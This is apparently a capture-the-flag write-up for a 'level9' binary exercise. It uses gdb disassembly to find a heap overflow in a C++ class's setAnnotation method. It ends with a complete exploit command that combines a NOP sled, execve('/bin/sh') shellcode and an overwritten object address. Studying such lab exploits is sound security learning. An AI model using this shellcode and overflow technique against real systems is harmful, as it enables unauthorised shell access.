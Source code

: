 ## level9
The `level9` is slightly a bit more complicated as it is written on C++ 
```
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   ebp
   0x080485f5 <+1>:	mov    ebp,esp
   0x080485f7 <+3>:	push   ebx
   0x080485f8 <+4>:	and    esp,0xfffffff0
   0x080485fb <+7>:	sub    esp,0x20
   0x080485fe <+10>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048602 <+14>:	jg     0x8048610 <main+28>
   0x08048604 <+16>:	mov    DWORD PTR [esp],0x1
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:	mov    ebx,eax
   [...]
~$ c++filt _Znwj
operator new(unsigned int)
```
So we suspect there's a Class being created with the operator *new* and this class looks like to have a constructor
```
0x080486f6 in N::N(int) ()
Dump of assembler code for function _ZN1NC2Ei:
   0x080486f6 <+0>:	push   ebp
=> 0x080486f7 <+1>:	mov    ebp,esp
   0x080486f9 <+3>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080486fc <+6>:	mov    DWORD PTR [eax],0x8048848
   0x08048702 <+12>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048705 <+15>:	mov    edx,DWORD PTR [ebp+0xc]
   0x08048708 <+18>:	mov    DWORD PTR [eax+0x68],edx
   0x0804870b <+21>:	pop    ebp
   0x0804870c <+22>:	ret
```
with an
```
(gdb) info functions
[...]
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
[...]
```
We can see the class is composed with a *__constructor__* *(constructor has same name as Class)* and three methods <br> *__setAnnotation(char \*)__*, *__operator+(N&)__* and *__operator-(N&)__* <br>
We we disassembly the *setAnnotation()* function we will find some interesting things *(a call to memcpy() which we can use to overflow the heap)*
```
(gdb) disas _ZN1N13setAnnotationEPc
   0x0804870e <+0>:	push   ebp
   0x0804870f <+1>:	mov    ebp,esp
   0x08048711 <+3>:	sub    esp,0x18
   0x08048714 <+6>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048717 <+9>:	mov    DWORD PTR [esp],eax
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    edx,DWORD PTR [ebp+0x8]
   0x08048722 <+20>:	add    edx,0x4
   0x08048725 <+23>:	mov    DWORD PTR [esp+0x8],eax
   0x08048729 <+27>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804872c <+30>:	mov    DWORD PTR [esp+0x4],eax
   0x08048730 <+34>:	mov    DWORD PTR [esp],edx
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave
   0x08048739 <+43>:	ret
```
So the argument we pass to the prgram is being passed as argument to *setAnnotation(argv[1])* you can check it by
```
r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

(gdb) b  *0x08048670
Breakpoint 1 at 0x8048670
n
=> 0x08048670 <+124>:	mov    eax,DWORD PTR [esp+0x14]
(gdb) x/s $eax
0xbffff85c:	 'A' <repeats 110 times>
ni
ni
ni
(gdb) i r
eax            0x804a00c	134520844
ecx            0x4141	16705                    <-------------------------
edx            0x804a07a	134520954
ebx            0x804a078	134520952
esp            0xbffff650	0xbffff650
ebp            0xbffff678	0xbffff678
esi            0x0	0
edi            0x0	0
eip            0x804867c	0x804867c <main+136>
eflags         0x200283	[ CF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

```
As we can see after passing 110 characters we overwrote by two bytes `ecx` what gives us an **__offset_** of `108`
We can also see in the `main()` that the two call to `new()` returns the two __address__ 
```
0x804a008 = first  new()
0x804a078 = second new()
```
That is exactly `0x70 bytes (112)`  from each other what is probably the `malloc(sizeof(M))` we can also see that before each call a value of `0x6c bytes (108)` is passed
```
0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c
0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
``` 
We can also verify that we are calling the __address__ of the *first new()*` to  *setAnnotation()* with the string we supplied the program 
```
   0x08048674 <+128>:	mov    DWORD PTR [esp],eax
=> 0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
   
(gdb) x/4xw $esp
0xbffff6b0:	0x0804a008	0xbffff8c5	0xbffff780	0xb7d79e55
(gdb) x/s 0xbffff8c5
0xbffff8c5:	 "hello"
```
After that in `main()` we see a call to `edx` that contains the __address__ of the *second new()* `0x804a078` let put a break and check
```
(gdb) b *0x08048690
Breakpoint 2 at 0x8048690
n
=> 0x08048690 <+156>:	mov    DWORD PTR [esp],eax
   0x08048693 <+159>:	call   edx
(gdb) x/4xw $eax
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
```
We now have enough information to try to get the flag, as we don't have any call to `system()` function here we will need to pass a *shellcode* as in `level2`
__Shell code__ `'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'` that gives us a total of `24 bytes` we know the *offset* is 108 - 24 for the shell code and 4 for the address what leaves us with *80 bytes* of random characters
```
./level9 $(python -c "print('\x90' * 80 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x0c\xa0\x04\x08')")
```

